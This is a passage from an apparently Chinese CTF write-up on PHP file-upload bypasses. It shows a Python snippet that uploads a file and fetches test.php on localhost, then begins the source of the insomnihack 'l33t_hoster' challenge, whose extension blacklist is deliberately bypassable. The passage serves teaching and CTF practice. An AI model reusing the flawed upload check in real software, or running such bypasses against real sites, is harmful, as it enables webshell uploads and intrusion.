 ```python
r = requests.session()

r.post(url,files=files,headers=headers,data=data)

t = r.get('http://127.0.0.1/test.php',headers=headers)

print(t.text)
```





## 0x06 相关例题

### [insomnihack](https://github.com/eboda/insomnihack)——l33t_hoster

```php
 <?php
if (isset($_GET["source"])) 
    die(highlight_file(__FILE__));

session_start();

if (!isset($_SESSION["home"])) {
    $_SESSION["home"] = bin2hex(random_bytes(20));
}
$userdir = "images/{$_SESSION["home"]}/";
if (!file_exists($userdir)) {
    mkdir($userdir);
}

$disallowed_ext = array(
    "php",
    "php3",
    "php4",
    "php5",
    "php7",
    "pht",
    "phtm",
    "phtml",
    "phar",
    "phps",
);


if (isset($_POST["upload"])) {
    if ($_FILES['image']['error'] !== UPLOAD_ERR_OK) {
        die("yuuuge fail");
    }

    $tmp_name = $_FILES["image"]["tmp_name"];
    $name = $_FILES["image"]["name"];
    $parts = explode(".", $name);
    $ext = array_pop($parts);

    if (empty($parts[0])) {
        array_shift($parts);
    }

    if (count($parts) === 0) {
        die("lol filename is empty");
    }
```
